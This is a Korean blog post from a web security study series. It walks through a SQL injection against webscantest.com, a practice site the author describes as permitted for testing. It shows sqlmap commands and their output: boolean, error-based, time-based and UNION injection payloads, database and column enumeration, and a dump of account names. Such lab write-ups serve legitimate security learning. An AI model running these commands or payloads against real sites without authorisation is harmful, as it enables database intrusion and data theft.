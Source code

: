 ```yaml
---
layout: post
title: "5. wordpress SQL Injection"
date: 2017-10-08 11:50
categories: web_study
---
```

wordpress가 깔려있는 localhost에 SQLMAP을 이용한 인젝션 공격을 시도하였으나 별다른 취약점을 찾지 못했다.

따라서 로컬호스트가 아닌 다른 허용된 모의 해킹사이트를 인젝션 공격을 해보았다.

1. 분석

    추가) 지피지기면 백전백승. 먼저 이 사이트에서 injection 가능한 파라미터를 탐색한다.

    팁을 주자면 해당 웹 사이트의 모든 입력 파라미터에 ' 를 입력하였을때, 서버 오류를 일으킨다면 높은 확률로 인젝션이 가능하다.

    인젝션을 수행할 사이트의 url과 파라미터를 sqlmap에 명시하고, 탐색하게한다.

    ```bash
    [root@localhost sqlmap-dev]# ./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4"
            ___
        __H__
    ___ ___[)]_____ ___ ___  {1.1.10#stable}
    |_ -| . [,]     | .'| . |
    |___|_  ["]_|_|_|__,|  _|
        |_|V          |_|   http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting at 13:40:42

    [13:40:42] [INFO] resuming back-end DBMS 'mysql' 
    [13:40:43] [INFO] testing connection to the target URL
    [13:40:43] [INFO] heuristics detected web page charset 'ascii'
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: id=4 AND 7246=7246

        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: id=4 AND (SELECT 1357 FROM(SELECT COUNT(*),CONCAT(0x7162787871,(SELECT (ELT(1357=1357,1))),0x7176706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

        Type: AND/OR time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: id=4 AND SLEEP(5)

        Type: UNION query
        Title: Generic UNION query (NULL) - 4 columns
        Payload: id=4 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162787871,0x59465277487754497a487a62716676655362415956696e59576f496a4b5a4b634753575174656641,0x7176706271)-- aLCv
    ---
    [13:40:43] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu
    web application technology: Apache 2.4.7, PHP 5.5.9
    back-end DBMS: MySQL >= 5.0
    [13:40:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.webscantest.com'
    ```

    back-end DBMS: MySQL >= 5.0 를 통해 MySQL을 사용하고 있음을 알 수 있다.

    추가) 이 사이트에는 boolean-based blind , error-based ,AND/OR time-based blind 등 다양한 취약점들이 발견되었다.

    MySQL버전과 사이트가 어떤 취약점이 있는지 알려주며, 이 취약점을 통해서 DB를 탈취할 수 있다.

1. DB 찾기

    이 사이트에 무슨 DB가 있는지 검색한다.

    ```bash
    ./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dbs

    ...

    [13:45:41] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu
    web application technology: Apache 2.4.7, PHP 5.5.9
    back-end DBMS: MySQL >= 5.0
    [13:45:41] [INFO] fetching database names
    available databases [2]:
    [*] information_schema
    [*] webscantest
    ```

    2개의 데이터베이스가 검색되었다.

1. DB안의 정보 가져오기

    찾은 DB안의 구조가 어떻게 되어있는지 가져온다.

    ```bash
    ./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dbs --columns -D webscantest

    Database: webscantest
    Table: accounts
    [5 columns]
    +--------+--------------+
    | Column | Type         |
    +--------+--------------+
    | fname  | varchar(50)  |

    ...
    ```

1. DB안의 데이터 추출

    C옵션은 colmne T옵션은 table D옵션은 DB이다.

    ```bash

    ./sqlmap.py -u "http://www.webscantest.com/datastore/search_get_by_id.php?id=4" --dump -C fname -T accounts -D webscantest

    Database: webscantest
    Table: accounts
    [2 entries]
    +-------+
    | fname |
    +-------+
    | Admin |
    | Test  |
    +-------+
    ```

2개의 계정이 있음을 확인 할 수 있다.

[참고사이트](https://www.hackers-arise.com)